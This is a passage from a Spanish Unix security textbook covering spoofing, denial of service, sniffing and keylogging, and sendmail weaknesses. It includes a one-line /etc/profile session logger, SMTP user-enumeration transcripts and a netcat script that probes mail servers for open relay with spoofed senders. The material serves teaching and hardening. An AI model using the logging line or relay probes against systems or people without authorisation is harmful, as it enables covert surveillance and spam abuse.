Este ataque hace referencia al falseamiento de una direcci\'on IP ante una 
consulta de resoluci\'on de nombre (esto es, resolver con una direcci\'on falsa 
un cierto nombre DNS), o viceversa (resolver con un nombre falso una cierta
direcci\'on IP). Esto se puede conseguir de diferentes formas, desde modificando
las entradas del servidor encargado de resolver una cierta petici\'on para 
falsear las relaciones direcci\'on--nombre, hasta comprometiendo un servidor 
que infecte la cach\'e de otro (lo que se conoce como {\it DNS Poisoning});
incluso sin acceso a un servidor DNS real, un atacante puede enviar datos 
falseados como respuesta a una petici\'on de su v\'{\i}ctima sin m\'as que 
averiguar los n\'umeros de secuencia correctos.
\item{\it ARP Spoofing}\\
El ataque denominado {\it ARP Spoofing} hace referencia a la construcci\'on de 
tramas de solicitud y respuesta {\sc arp} falseadas, de forma que en una red
local se puede forzar a una determinada m\'aquina a que env\'{\i}e los paquetes
a un {\it host} atacante en lugar de hacerlo a su destino leg\'{\i}timo. La idea
es sencilla, y los efectos del ataque pueden ser muy negativos: desde negaciones
de servicio hasta interceptaci\'on de datos, incluyendo algunos {\it Man in 
the Middle} contra ciertos protocolos cifrados. En \cite{kn:vol97} podemos
obtener m\'as informaci\'on acerca de este ataque, as\'{\i} como c\'odigo 
fuente para enviar tramas falseadas y comprobar los efectos del {\it ARP 
Spoofing} en nuestra red.
\item{\it Web Spoofing}\\
Este ataque permite a un pirata visualizar y modificar cualquier p\'agina {\it
web} que su v\'{\i}ctima solicite a trav\'es de un navegador, incluyendo las
conexiones seguras v\'{\i}a {\sc ssl}. Para ello, mediante c\'odigo malicioso 
un atacante crea una ventana del navegador correspondiente, de apariencia 
inofensiva, en la m\'aquina de su v\'{\i}ctima; a partir de ah\'{\i}, enruta 
todas las p\'aginas dirigidas al equipo atacado -- incluyendo las cargadas en
nuevas ventanas del navegador -- a trav\'es de su propia 
m\'aquina, donde son modificadas para que cualquier evento generado por el 
cliente sea registrado (esto implica registrar cualquier dato introducido en un
formulario, cualquier {\it click} en un enlace, etc.). Para obtener m\'as 
informaci\'on acerca del {\it Web Spoofing} podemos consultar \cite{kn:fel96}.
\end{itemize}
\section{Negaciones de servicio}
Las negaciones de servicio (conocidas como DoS, {\it Denial of Service}) son
ataques dirigidos contra un recurso inform\'atico (generalmente una m\'aquina o
una red, pero tambi\'en podr\'{\i}a tratarse de una simple impresora o una
terminal) con el objetivo de degradar total o parcialmente los servicios 
prestados por ese recurso a sus usuarios leg\'{\i}timos; constituyen en muchos 
casos uno de los ataques m\'as sencillos y contundentes contra todo tipo de 
servicios, y en entornos donde la disponibilidad es valorada por encima de otros
par\'ametros de la seguridad global puede convertirse en un serio problema, ya
que un pirata puede interrumpir constantemente un servicio sin necesidad de 
grandes conocimientos o recursos, utilizando simplemente sencillos programas y 
un m\'odem y un PC caseros.\\
\\Las negaciones de servicio m\'as habituales suelen consistir en la
inhabilitaci\'on total de un determinado servicio o de un sistema completo, bien
porque ha sido realmente bloqueado por el atacante o bien porque est\'a tan 
degradado que es incapaz de ofrecer un servicio a sus usuarios. En la mayor
parte de sistemas, un usuario con acceso {\it shell} no tendr\'{\i}a muchas
dificultades en causar una negaci\'on de servicio que tirara abajo la m\'aquina 
o la ralentizara enormemente; esto no tiene porqu\'e ser -- y de hecho en muchos
casos no lo es -- un ataque intencionado, sino que puede deberse a un simple
error de programaci\'on. Por ejemplo, pensemos en el siguiente {\it 
shellscript} (funciona en Linux):
\begin{quote}
\begin{verbatim}
luisa:~# cat /usr/local/bin/lanzador
#!/bin/sh
ps -ef|grep calcula|grep -v grep 2>&1 >/dev/null
if [ $? -eq 1 ]; then
        /usr/local/bin/calcula &
fi
luisa:~# 
\end{verbatim}
\end{quote}
Como podemos ver, este {\it script} comprueba si un determinado programa
est\'a lanzado en la m\'aquina, y si no lo est\'a lo lanza \'el; algo 
completamente inofensivo a primera vista, y planificado habitualmente en muchos 
sistemas para que se ejecute -- por ejemplo, cada cinco minutos -- desde {\tt
crond}. Sin embargo, nos podemos parar a pensar qu\'e suceder\'{\i}a bajo 
algunas circunstancias anormales: >y si en el arranque de la m\'aquina, por el 
motivo que sea, no se ha montado correctamente el directorio {\tt /proc/}? Si 
esto sucede, la orden {\tt `ps'} generar\'a un error, la condici\'on se 
cumplir\'a siempre, y cada cinco minutos se lanzar\'a una copia de {\tt 
calcula}; si este programa consume mucha CPU, al poco tiempo tendremos un 
elevado n\'umero de copias que cargar\'an enormemente el sistema hasta hacerlo 
inutilizable. Un ejemplo perfecto de negaci\'on de servicio.\\
\\Por fortuna, como ya hemos visto en cap\'{\i}tulos anteriores, todos los 
sistemas Unix ofrecen mecanismos para evitar que un usuario normal pueda tirar
abajo una m\'aquina de esta forma; incluso si no los ofrecieran, en la mayor
parte de los casos el responsable podr\'{\i}a {\it ser disciplinado fuera del
sistema operativo, por otros medios}, como dijo Dennis Ritchie. El problema 
real no es que usuarios leg\'{\i}timos de un entorno causen, intencionada o
inintencionadamente, negaciones de servicio: el mayor problema es que esas
negaciones sean causadas de forma remota por piratas ajenos por completo a 
nuestra organizaci\'on, capaces de tumbar un servidor de millones de pesetas 
con sencillos programas, sin dejar ning\'un rastro y lo peor, sin ser muchas
veces conscientes del da\~no que est\'an haciendo.\\
\\Estos ataques remotos de negaci\'on de servicio son considerados negativos
incluso por muchos de los propios piratas -- especialmente los m\'as 
experimentados --, ya que realmente no suelen demostrar nada positivo de quien
los lanza (si es que alg\'un ataque demuestra algo positivo de alguien, lo cual
ser\'{\i}a muy discutible\ldots): generalmente se trata de un {\it 
script--kiddie} ejecutando un programa que ni ha hecho, ni entiende, ni ser\'a
capaz de entender. En la mayor parte de los casos la negaci\'on de servicio 
tiene \'exito porque el objetivo utiliza versiones no actualizadas de demonios
(si se para un servicio concreto) o del propio n\'ucleo del sistema operativo, 
si se detiene o degrada por completo la m\'aquina. Para evitar esto, la norma a
seguir es evidente: mantener siempre actualizados nuestros sistemas, tanto en
lo referente al nivel de parcheado o versiones del n\'ucleo, como en lo 
referente a programas cr\'{\i}ticos encargados de ofrecer un determinado 
servicio (demonios, por norma general: {\tt sendmail}, {\tt httpd}, {\tt 
pop3d}\ldots).\\
\\De un tiempo a esta parte -- en concreto, desde 1999 -- se ha popularizado 
mucho el t\'ermino `negaci\'on de servicio distribuida' ({\it Distributed 
Denial of Service}, DDoS): en este ataque un pirata compromete en primer lugar 
un determinado n\'umero de m\'aquinas y, en un determinado momento, hace que 
todas ellas ataquen masiva y simultaneamente al objetivo u objetivos reales 
envi\'andoles diferentes tipos de
paquetes; por muy grandes que sean los recursos de la v\'{\i}ctima, el gran
n\'umero de tramas que reciben har\'a que tarde o temprano dichos recursos sean
incapaces de ofrecer un servicio, con lo que el ataque habr\'a sido exitoso.
Si en lugar de cientos o miles de equipos atacando a la vez lo hiciera uno 
s\'olo las posibilidades de \'exito ser\'{\i}an casi inexistentes, pero es 
justamente el elevado n\'umero de `peque\~nos' atacantes lo que hace muy
dif\'{\i}cil evitar este tipo de negaciones de servicio.\\
\\Seg\'un el CERT (\cite{kn:hou01}) los ataques de negaci\'on de servicio 
distribuidos m\'as habituales consisten en el env\'{\i}o de un gran n\'umero de 
paquetes a un determinado objetivo por parte de m\'ultiples {\it hosts}, lo que 
se conoce como {\it packet flooding} (en funci\'on del tipo de paquetes 
utilizados se habla de {\it ping flood}, de {\sc syn} {\it flood}\ldots). 
Defenderse de este tipo de ataques es dif\'{\i}cil: en primer lugar, uno piensa
en bloquear de alguna forma (probablemente en un cortafuegos o en un {\it 
router}) todo el tr\'afico proveniente de los atacantes; pero >qu\'e sucede 
cuando tenemos miles de ordenadores atacando desde un gran n\'umero de redes 
diferentes? >Los bloqueamos uno a uno? Esto supondr\'{\i}a un gran esfuerzo que
dif\'{\i}cilmente ayudar\'{\i}a, ya que lo m\'as probable es que en el tiempo
que nos cueste bloquear el tr\'afico de una determinada m\'aquina, dos o tres
nuevas nos comiencen a atacar. Entonces, >bloqueamos todo el tr\'afico dirigido
hacia el objetivo? Si hacemos esto, estamos justamente ayudando al atacante, ya
que somos nosotros mismos los que causamos una negaci\'on en el servicio a los 
usuarios leg\'{\i}timos de nuestro sistema\ldots\\
\\Como vemos, la defensa ante una negaci\'on de servicio distribuida no es 
inmediata; en cualquier caso, podemos tomar ciertas medidas preventivas que nos 
ayudar\'an a limitar el alcance de uno de estos ataques (y en general de las
negaciones de servicio remotas, distribuidas o no). De entrada, un correcto
filtrado del tr\'afico dirigido a nuestras m\'aquinas es vital para garantizar 
nuestra seguridad: no hay que responder a {\it pings} externos a nuestra red, es
necesario activar el {\it antispoofing} en nuestros cortafuegos y en los 
elementos de electr\'onica de red que lo permitan, etc. Establecer 
correctamente l\'{\i}mites a la utilizaci\'on de nuestros recursos, como ya 
hemos visto, es tambi\'en una importante medida preventiva; es posible limitar
el ancho de banda dedicado a una determinada aplicaci\'on o a un protocolo, de
forma que las utilizaciones por encima del margen son negadas. Tambi\'en 
podemos limitar los recursos del sistema (CPU, memoria, disco\ldots) que puede
consumir en global una determinada aplicaci\'on servidora (por ejemplo, un
demonio sirviendo p\'aginas {\it web}), adem\'as de restringir sus recursos por
cliente simult\'aneo (en base, por ejemplo, a la direcci\'on origen de ese
cliente).\\
\\A pesar de las dificultades con las que nos podemos encontrar a la hora de
prevenir ataques de negaci\'on de servicio, una serie de medidas sencillas 
pueden ayudarnos de forma relativa en esa tarea; las negaciones de servicio son
por desgracia cada d\'{\i}a m\'as frecuentes, y ninguna organizaci\'on est\'a
a salvo de las mismas. Especialmente en los ataques distribuidos, la seguridad
de cualquier usuario conectado a Internet (aunque sea con un sencillo PC y un
m\'odem) es un eslab\'on importante en la seguridad global de la red, ya que 
esos usuarios se convierten muchas veces sin saberlo en sat\'elites que 
colaboran en un ataque masivo contra organizaciones de cualquier tipo. Cuanto
m\'as dif\'{\i}cil se lo pongamos cada uno de nosotros a los piratas, mucho
mejor para todos.
\section{Interceptaci\'on}
En la secci\'on \ref{eavesdropping} ya comentamos algunos aspectos relacionados
con la interceptaci\'on de datos en tr\'ansito o en proceso por parte de
usuarios no autorizados; all\'{\i} hablamos de los ataques y defensas desde un 
punto de vista casi exclusivamente f\'{\i}sico, por lo que vamos a entrar
ahora en algunos puntos m\'as relacionados con la interceptaci\'on l\'ogica. Y
sin duda, la interceptaci\'on l\'ogica de datos m\'as conocida y extendida es 
el {\bf sniffing}: en esa misma secci\'on ya introdujimos este t\'ermino y 
hablamos de dispositivos {\it hardware} como los {\it sniffers} de alta 
impedancia; sin embargo, en entornos de trabajo de seguridad media es mucho 
m\'as com\'un que el {\it sniffing} se produzca utilizando programas ({\it
sniffers}) y no elementos {\it hardware}.\\
\\En las redes de difusi\'on, cuando una m\'aquina env\'{\i}a una trama a otra
indica en un campo reservado la direcci\'on del {\it host} destino\footnote{No 
vamos a entrar en detalles sobre el funcionamiento de {\sc tcp/ip} ni sobre 
qu\'e direcci\'on se env\'{\i}a: a nosotros s\'olo nos interesa saber que en el 
paquete se identifica de alguna forma al destino.}; todas las m\'aquinas del
dominio de colisi\'on ven esa trama, pero s\'olo su receptora leg\'{\i}tima la
captura y elimina de la red. Este es el funcionamiento normal de {\sc tcp/ip}; 
sin embargo, es necesario insistir en un aspecto: todas las m\'aquinas {\bf 
ven} la trama, y si no leen todos sus campos es porque no `quieren'. Existe un 
modo de funcionamiento de las interfaces de red denominado modo {\bf 
promiscuo}, en el cual la tarjeta lee todas las tramas que circulan por la red, 
tanto dirigidas a ella como a otras m\'aquinas; el leerlas no implica el 
eliminarlas de la red, por lo que el {\it host} destino leg\'{\i}timo la
recibir\'a y eliminar\'a sin notar nada extra\~no.\\
\\Para hacer funcionar un interfaz de red en modo promiscuo es necesario tener 
un control total del sistema o, dicho de otra forma, ser {\tt root} en la 
m\'aquina; esto ayuda un poco en la defensa, pero ni de lejos soluciona el 
problema que estamos planteado: no podemos permitir que cualquiera que sea 
superusuario de un sistema pueda capturar todo el tr\'afico que pasa por el
mismo (incluyendo claves, correo electr\'onico, y cientos de datos privados). 
Por si esto fuera poco, en los sistemas donde todos los usuarios tienen un 
control total de la m\'aquina (por ejemplo, en toda la familia Windows 9x) ni 
siquiera hace falta ese privilegio: cualquiera que se siente en un PC puede
ejecutar un {\it sniffer} y capturar todo el tr\'afico de la red.\\
\\Programas para `esnifar' tr\'afico hay para todos los gustos y colores: desde
{\tt dsniff} y su familia, capaces hasta de capturar los correos electr\'onicos
directamente en formato {\sc smtp} o cargar de forma autom\'atica en un 
navegador las mismas p\'aginas que visita
la v\'{\i}ctima del ataque, hasta el arcaico {\tt snoop} de Solaris, que vuelca
paquetes en un formato por defecto casi ilegible, pasando por los cl\'asicos
{\tt tcpdump} o {\tt sniffit} (que en algunas de sus versiones inclu\'{\i}a el
{\it Touch of Dead}, capaz de cortar conexiones establecidas entre dos 
m\'aquinas sin m\'as que pulsar {\it F5}). Para evitar que programas de este
tipo capturen nuestra informaci\'on existen diferentes aproximaciones m\'as o
menos efectivas, como sustituir los HUBs de nuestra red por {\it switches} que
aislan dominios de colisi\'on (<ojo, esto dificulta el ataque pero {\bf no} lo
imposibilita!) o implantar redes privadas virtuales. Pero sin ninguna duda la 
m\'as barata y sencilla es el uso de protocolos cifrados siempre que nos sea
posible (que lo suele ser casi siempre); repetimos una vez m\'as lo que hemos
dicho ya en muchas ocasiones: sustituir {\it telnet} y {\tt rlogin} por {\sc
ssh} y {\sc ftp} por {\tt scp} o {\tt sftp} es muy sencillo, y nos proporciona 
un incremento de seguridad abismal en nuestro entorno. Implantar {\it SSL} o
t\'uneles seguros quiz\'as es algo m\'as costoso -- en tiempo solamente --, 
pero tambi\'en en la mayor\'{\i}a de ocasiones es algo que vale la pena hacer:
en todo momento hemos de tener presente que el {\it sniffing} es un peligro 
real, que no necesita de grandes medios y, lo que es peor, indetectable en 
la mayor parte de casos; a pesar de que existen m\'etodos para tratar de 
detectar sistemas con un interfaz en modo promiscuo, no suelen ser todo lo 
efectivos que uno podr\'{\i}a esperar, ya que detectar una m\'aquina en este
estado no es ni de lejos inmediato.\\
\\Como hemos dicho, el {\it sniffing} es el ataque de interceptaci\'on m\'as
conocido y utilizado, pero no es el \'unico que se puede poner en pr\'actica
contra un sistema determinado, Unix o no. En algunas versiones de Linux 
existe un programa denominado {\tt ttysnoop} (por {\it snooping} -- fisgoneo -- 
se conoce a los ataques gen\'ericos de interceptaci\'on de datos) capaz de 
registrar en tiempo real todo lo que un usuario teclea en una terminal, tanto
f\'{\i}sica como virtual. Aunque el resultado es en muchos aspectos similar al
{\it sniffing}, t\'ecnicamente poco tiene que ver con este: en ning\'un momento
se capturan datos que circulan por la red, la tarjeta no trabaja en modo 
promiscuo (es mas, ni siquiera es necesario un interfaz de red), etc; 
simplemente, la informaci\'on que un usuario introduce en una terminal es 
clonada en otra, permitiendo tanto la entrada como la salida de datos a trav\'es
de ambas. Aunque Linux sea el sistema Unix nativo de {\tt ttysnoop} existen
versiones tambi\'en para otros entornos, y por supuesto esta no es la \'unica 
herramienta para `fisgonear' en las terminales de usuarios (otro ejemplo 
podr\'{\i}a ser {\it TTY Watcher}, disponible para SunOS y Solaris).\\
\\Otro ataque de interceptaci\'on, menos utilizado que los anteriores pero 
igual de peligroso, es el {\it keylogging}, el registro de las teclas pulsadas
por un usuario en una sesi\'on. Aunque es m\'as habitual el uso de {\it 
keyloggers} en entornos Windows, en Unix tambi\'en disponemos de ellos:
podr\'{\i}amos incluso considerar a {\tt ttysnoop} como un {\it keylogger}
avanzado, que no se limita \'unicamente a registrar lo tecleado sino que 
permite interacci\'on en tiempo real; otro ejemplo de un programa que capture 
esta informaci\'on puede ser una mula de troya cl\'asica, de las que ya hemos 
hablado. Incluso en cualquier Unix viene de serie un {\it keylogger}: el 
programa {\tt script}, que guarda en un archivo lo que el usuario que lo invoca 
lee o escribe en la pantalla; bastar\'{\i}a una llamada a este programa en el 
inicio de sesi\'on de cada usuario para conseguir un registro -- muy arcaico y 
f\'acilmente falseable -- de lo que cada usuario teclea en su terminal, algo 
parecido a lo siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# grep script /etc/profile
exec /usr/bin/script -a /tmp/comandos-$USER
luisa:~#
\end{verbatim}
\end{quote}
Podemos ver que al invocar a {\tt script} especificamos el archivo donde 
deseamos que se replique la informaci\'on; si en lugar de un fichero plano
indicamos una terminal, tenemos un clonador de sesiones perfecto, aunque no
interactivo.\\
\\Para finalizar este punto podemos reflexionar brevemente sobre la peligrosidad
de los ataques de interceptaci\'on; muchos de ellos necesitan privilegios de
superusuario en al menos una m\'aquina, pero por lo dem\'as son realmente
sencillos. Sencillos y peligrosos: aunque se trate de ataques pasivos, y aunque
alguien pueda pensar que si el pirata ya es {\tt root} no se puede atacar m\'as
al sistema, permiten capturar datos relativos no s\'olo al sistema comprometido,
sino a otras m\'aquinas que quiz\'as a\'un no han sido atacadas y que 
posiblemente representan el objetivo real del pirata. Evitar estos ataques pasa
en primera instancia por no permitir que un pirata consiga privilegios en un
sistema -- mejor si no consigue nada, pero esto no siempre es posible --, y en
segunda por lo que ya sabemos: cifrar cuanto m\'as tr\'afico mejor.
\section{Ataques a aplicaciones}
\subsection{Correo electr\'onico}
Desde hace muchos a\~nos los sistemas de correo electr\'onico de una 
organizaci\'on han sido para los piratas una fuente inagotable de puntos de 
entrada a la misma; lo m\'as probable es que si le preguntamos a cualquier 
administrador de m\'aquinas Unix con algo de experiencia cu\'al ha sido el {\it 
software} que m\'as problemas de seguridad le ha causado nos responda sin 
dudarlo: {\tt sendmail}, por supuesto. Y ya no s\'olo {\tt sendmail} y el 
protocolo {\sc smtp}, sino que tambi\'en, con la popularizaci\'on de {\sc 
pop3}, los servidores de este protocolo son un peligro potencial a tener en
cuenta en cualquier entorno inform\'atico donde se utilice el correo 
electr\'onico: es decir, en todos.\\
\\De entrada, un programa como {\tt sendmail} -- lo ponemos como ejemplo por 
ser el m\'as popular, pero podr\'{\i}amos hablar en los mismos t\'erminos de
casi cualquier servidor {\sc smtp} -- proporciona demasiada informaci\'on a un
atacante que simplemente conecte a \'el:
\begin{quote}
\begin{verbatim}
luisa:~$ telnet 0 25
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
220 luisa ESMTP Sendmail 8.9.3/8.9.3; Mon, 29 Oct 2001 03:58:56 +0200
quit
221 luisa closing connection
Connection closed by foreign host.
luisa:~$ 
\end{verbatim}
\end{quote}
Y no s\'olo se proporcionan datos \'utiles para un pirata como la versi\'on del 
programa utilizada o la fecha del sistema, sino que se llega incluso m\'as 
lejos: tal y como se instalan por defecto, muchos servidores {\sc smtp} (aparte
de {\tt sendmail}, algunos tan populares como {\it Netscape Messaging Server})
informan incluso de la existencia o inexistencia de nombres de usuario y de 
datos sobre los mismos:
\begin{quote}
\begin{verbatim}
luisa:~$ telnet 0 25
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
220 luisa ESMTP Sendmail 8.9.3/8.9.3; Mon, 29 Oct 2001 04:03:22 +0200
vrfy root
250 El Spiritu Santo <root@luisa>
expn root
250 El Spiritu Santo <root@luisa>
quit
221 luisa closing connection
Connection closed by foreign host.
luisa:~$ 
\end{verbatim}
\end{quote}
Parece evidente que de entrada estamos d\'andole a cualquier pirata demasiada
informaci\'on sobre nuestro entorno de trabajo; una de las primeras cosas que
deber\'{\i}amos hacer en todos nuestros servidores de correo es deshabilitar 
este tipo de opciones. En concreto, para deshabilitar las \'ordenes {\tt vrfy} y
{\tt expn}, en {\tt sendmail.cf} debemos modificar la 
l\'{\i}nea
\begin{quote}
\begin{verbatim}
O PrivacyOptions=authwarnings
\end{verbatim}
\end{quote}
para que no se proporcione informaci\'on, de la forma siguiente:
\begin{quote}
\begin{verbatim}
O PrivacyOptions=goaway
\end{verbatim}
\end{quote}
Para conseguir que que {\tt sendmail} adem\'as tampoco informe de su versi\'on 
y la fecha del sistema -- algo recomendable, evidentemente -- la entrada a
modificar es {\tt SmtpGreetingMessage}. Si lo hacemos, y adem\'as hemos 
deshabilitado las {\tt PrivacyOptions}, cuando alguien conecte a nuestro 
servidor ver\'a algo similar a:
\begin{quote}
\begin{verbatim}
luisa:/# egrep "Privacy|Greeting" /etc/sendmail.cf 
O PrivacyOptions=goaway
O SmtpGreetingMessage=Servidor
luisa:/# telnet 0 25
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
220 Servidor ESMTP
vrfy root
252 Cannot VRFY user; try RCPT to attempt delivery (or try finger)
quit
221 luisa closing connection
Connection closed by foreign host.
luisa:/# 
\end{verbatim}
\end{quote}
En realidad, si un atacante quiere conocer la versi\'on del servidor que 
estamos utilizando a\'un no lo tiene dif\'{\i}cil, ya que simplemente ha de 
teclear una orden como {\tt `help'}:
\begin{quote}
\begin{verbatim}
luisa:~$ telnet 0 25
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
220 Servidor ESMTP
help
214-This is Sendmail version 8.9.3
214-Topics:
214-    HELO    EHLO    MAIL    RCPT    DATA
214-    RSET    NOOP    QUIT    HELP    VRFY
214-    EXPN    VERB    ETRN    DSN
214-For more info use "HELP <topic>".
214-To report bugs in the implementation send email to
214-    sendmail-bugs@sendmail.org.
214-For local information send email to Postmaster at your site.
214 End of HELP info
quit
221 luisa closing connection
Connection closed by foreign host.
luisa:~$ 
\end{verbatim}
\end{quote}
Para evitar esto debemos modificar convenientemente el fichero {\tt 
sendmail.hf} (en funci\'on del Unix utilizado su ubicaci\'on en la estructura de
directorios cambiar\'a) de forma que se restrinjan m\'as los mensajes que
proporciona el demonio en una sesi\'on interactiva; para obtener informaci\'on
sobre este fichero, as\'{\i} como del resto de configuraciones de {\tt sendmail}
podemos consultar \cite{kn:cos97a}. Debemos tener presente que conocer ciertos
datos que el programa proporciona puede facilitarle mucho la tarea a un pirata;
ocultar esta informaci\'on no es ni mucho menos una garant\'{\i}a de seguridad,
ni por supuesto ha de suponer uno de los pilares de nuestra pol\'{\i}tica, pero 
si con un par de peque\~nas modificaciones conseguimos quitarnos de encima 
aunque s\'olo sea a un atacante casual, bienvenidas sean -- aunque muchos 
consideren esto una apolog\'{\i}a del {\it security through obscurity} --.\\
\\Independientemente del programa que utilicemos como servidor de correo y su 
versi\'on concreta, con vulnerabilidades conocidas o no, otro gran problema de 
los sistemas de correo {\sc smtp} es el {\it relay}: la posibilidad de que un
atacante interno utilice nuestros servidores para enviar correo electr\'onico a
terceros, no relacionados con nuestra organizaci\'on. Aunque en principio esto
a muchos les pueda parecer un mal menor, no lo es; de entrada, si nuestros 
servidores permiten el {\it relay} estamos favoreciendo el {\sc spam} en la red,
el env\'{\i}o de {\it e-mail} no deseado con fines casi siempre publicitarios,
algo que evidentemente a nadie le hace gracia recibir. Adem\'as, el {\it relay}
causa una negaci\'on de servicio contra nuestros usuarios leg\'{\i}timos, tanto
desde un punto de vista estrictamente te\'orico -- alguien consume nuestros
recursos de forma no autorizada, degradando as\'{\i} el servicio ofrecido a
nuestros usuarios leg\'{\i}timos -- como en la pr\'actica: cuando un robot
encuentra un servidor {\sc smtp} en el que se permite el {\it relay} lo utiliza
masivamente mientras puede, cargando enormemente la m\'aquina y entorpeciendo el
funcionamiento normal de nuestros sistemas. Por si esto fuera poco, si se
incluye a nuestra organizaci\'on en alguna `lista negra' de servidores que 
facilitan el {\sc spam} se causa un importante da\~no a nuestra imagen, e 
incluso ciertos dominios pueden llegar a negar todo el correo proveniente de
nuestros servidores.\\
\\S\'olo existe una manera de evitar el {\it relay}: configurando correctamente
todos nuestros servidores de correo. Por supuesto, esto es completamente
dependiente de los programas ({\tt sendmail}, {\it iPlanet}\ldots) utilizados en
nuestro entorno, por lo que es necesario consultar en la documentaci\'on 
correspondiente la forma de habilitar filtros que eviten el {\it relay}; por
Internet exiten incluso filtros gen\'ericos para los servidores m\'as 
extendidos, por lo que nuestro trabajo no ser\'a excesivo ni complicado. Si
queremos verificar que nuestros servidores no permiten el {\it relay} podemos
ejecutar, desde una direcci\'on externa a nuestra organizaci\'on, el siguiente
programa: 
\begin{quote}
\begin{verbatim}
luisa:~$ cat security/prog/testrelay.sh
#!/bin/sh
# Este script comprueba que un servidor de correo no permite el relay.
# Basado en los test disponibles en 
# http://133.30.50.200/~takawata/d/resource/relaytest.html
# Necesitamos netcat (nc) instalado en el sistema.
# Toni Villalon <toni@aiind.upv.es>, 03 Enero 2000
# NOTA: Es necesario personalizar la variable DSTADDR
#

# Argumentos erroneos?
if (test $# -lt 1); then
        echo "Uso: $0 mail.dominio.com"
        exit
fi
# Especificamos una direccion origen (no es necesario que sea real)
SRCADDR=prova@prova.com 
SRCUSR=`echo $SRCADDR|awk -F@ '{print $1}'`
SRCDOM=`echo $SRCADDR|awk -F@ '{print $2}'`
# Direccion destino, para comprobar si realmente llega el mail
# SUSTITUIR POR UNA QUE PODAMOS COMPROBAR!!!
DSTADDR=toni@aiind.upv.es
DSTUSR=`echo $DSTADDR|awk -F@ '{print $1}'`
DSTDOM=`echo $DSTADDR|awk -F@ '{print $2}'`
# Direccion IP del host a testear
TESTIP=`host $1|grep address|tail -1|awk '{print $4}'`
if [ $? -ne 0 ]; then
       TESTIP=`/usr/bin/nslookup $1|grep ^Address|awk -F: 'NR==2 {print $2}'`
fi
# Ejecutable NetCat
NC=/usr/local/bin/nc
# Conectamos al servidor y lanzamos los test
# No ponemos todo en un 'cat <<EOF' porque si se generan errores, el servidor
# de correo nos tirara y quedaran test sin realizarse
#
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCADDR>
RCPT TO: <$DSTADDR>
DATA
Relay test no. 1
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET 
HELO $SRCDOM
MAIL FROM: <$SRCUSR>
RCPT TO: <$DSTADDR>
DATA
Relay test no. 2
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: < >
RCPT TO: <$DSTADDR>
DATA
Relay test no. 3
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTADDR>
DATA
Relay test no. 4
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@[$TESTIP]>
RCPT TO: <$DSTADDR>
DATA
Relay test no. 5
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTUSR%$DSTDOM@$1>
DATA
Relay test no. 6
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTUSR%$DSTDOM@[$TESTIP]>
DATA
Relay test no. 7
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <"$DSTADDR">
DATA
Relay test no. 8
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <"$DSTUSR%$DSTDOM">
DATA
Relay test no. 9
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTADDR@$1>
DATA
Relay test no. 10
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <"$DSTADDR"@$1>
DATA
Relay test no. 11
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTADDR@[$TESTIP]>
DATA
Relay test no. 12
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <@$1:$DSTADDR>
DATA
Relay test no. 13
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <@[$TESTIP]:$DSTADDR>
DATA
Relay test no. 14
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTDOM!$DSTUSR>
DATA
Relay test no. 15
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTDOM!$DSTUSR@$1>
DATA
Relay test no. 16
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCUSR@$1>
RCPT TO: <$DSTDOM!$DSTUSR@[$TESTIP]>
DATA
Relay test no. 17
.
QUIT
EOF
cat <<EOF | $NC $1 25
RSET
HELO $SRCDOM
MAIL FROM: <$SRCADDR>
RCPT TO: <$1!$DSTADDR>
DATA
Relay test no. 18
.
QUIT
EOF
luisa:~$
\end{verbatim}
\end{quote}
Es muy importante para nosotros cuidar cualquier aspecto de la seguridad 
relativo a nuestros sistemas de correo, ya que en la actualidad el correo
electr\'onico constituye uno de los servicios b\'asicos de cualquier empresa;
simplemente hemos de contar el n\'umero de {\it e-mails} que solemos recibir al
d\'{\i}a para hacernos una idea del desastre que supondr\'{\i}a un fallo en
los sistemas encargados de procesarlo.
\subsection{Ataques v\'{\i}a {\it web}}
Durante los \'ultimos a\~nos los servidores {\it web} se han convertido en una
excelente fuente de diversi\'on para piratas: cualquier empresa que se precie,
desde las m\'as peque\~nas a las grandes multinacionales, tiene una p\'agina 
{\it web} en las que al menos trata de vender su imagen corporativa. Si hace 
unos a\~nos un pirata que quisiera atacar a una empresa (y no a todas, ya que
